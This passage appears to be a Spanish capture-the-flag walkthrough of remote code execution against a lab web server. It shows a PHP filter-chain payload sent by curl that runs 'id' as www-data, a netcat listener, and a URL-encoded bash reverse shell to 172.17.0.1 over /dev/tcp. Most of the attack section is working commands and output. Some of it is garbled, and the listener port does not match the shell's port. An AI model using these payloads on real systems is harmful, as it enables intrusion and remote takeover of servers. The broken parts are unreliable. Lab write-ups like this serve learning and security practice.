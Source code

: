 ```bash
B|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=id" -H "Referer: http://bypass403.pw/index.php" --output response.html
```

Obtendremos un **output** de salida como el siguiente que indica que se a ejecutado correctamente:
```bash
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   273  100   273    0     0  27253      0 --:--:-- --:--:-- --:--:-- 30333
```

Ahora tenemos un archivo: **response.html** que si vemos su contenido, Tenemos ejecucion remota de comandos de manera exitosa:
```bash
cat response.html

uid=33(www-data) gid=33(www-data) groups=33(www-data) # Outpud del comando id
)C^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^OC�^C�^C��^@^@=^O�^O@^OC�^C�^C��^@�^@�>^@=^@=^O�^O@^O
```

### Intrusion
Para ganar aceeso a la maquina nos pones en escucha en nuestra maquina de atacante:
```bash
nc -nlvp 443
```

**Nota** para que funcione correctamente y ganemos accesso a la maquina victima, tendremo que ejecutar este comando primero en la misma terminar donde hemos ejecutado el primer comando **id**, Esto porque llamaremos a una variable que crearemos con el siguiente comando:
Esto lo hacemos porque al ejecutar directamente la **revershell** da problemas entonces lo que aremos sera acortarla mediante una variable que es a la que despues llamaremos al final para ganar acceso a la maquina victima:

El error `curl: (3) URL rejected: Malformed input to a URL function` ocurre porque la URL es **demasiado larga** y contiene caracteres especiales que deben ser escapados correctamente. El comando `bash -i >%26 ...` tiene caracteres como `>` y `&` que necesitan codificación URL completa.
```bash
COMANDO_CODIFICADO=$(echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'" | jq -sRr @uri)
```

en **bash** sabemos que para llamar a una variabale es de esta manera:
```bash
$COMANDO_CODIFICADO
```

##### Ganando accesso:
Ejecutamos:
```bash
# Reverse shell o acceso inicial con la variable $COMANDO_CODIFICADO ya incluido
```